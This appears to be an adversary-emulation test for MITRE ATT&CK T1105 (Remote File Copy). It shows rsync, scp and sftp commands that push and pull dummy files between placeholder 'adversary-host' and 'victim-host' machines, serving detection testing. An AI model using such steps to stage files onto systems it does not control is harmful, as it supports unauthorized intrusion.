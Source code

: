 # Remote File Copy

## MITRE ATT&CK Technique:
	[T1105](https://attack.mitre.org/wiki/Technique/T1105)

## Adversary System Configuration
### Ensure SSH access has been configured for an adversary account
    echo "This file transferred by scp" > /tmp/adversary-scp
    echo "This file transferred by sftp" > /tmp/adversary-sftp
    mkdir /tmp/adversary-rsync
    cd /tmp/adversary-rsync
    touch a b c d e f g

## Victim System Configuration
### Ensure SSH access has been configured for a victim account
### Ensure write access for victim account to this directory
    mkdir /tmp/victim-files
    cd /tmp/victim-files

## Push files to victim using rsync
    rsync -r /tmp/adversary-rsync/ victim@victim-host:/tmp/victim-files/

## Pull files from adversary using rsync
    rsync -r adversary@adversary-host:/tmp/adversary-rsync/ /tmp/victim-files/

## Push files to victim using scp
    scp /tmp/adversary-scp victim@victim-host:/tmp/victim-files/

## Pull file from adversary using scp
    scp adversary@adversary-host:/tmp/adversary-scp /tmp/victim-files/scp-file

## Push files to victim using sftp
    sftp victim@victim-host:/tmp/victim-files/ <<< $'put /tmp/adversary-sftp'

## Pull file from adversary using sftp
    sftp adversary@adversary-host:/tmp/adversary-sftp /tmp/victim-files/sftp-file
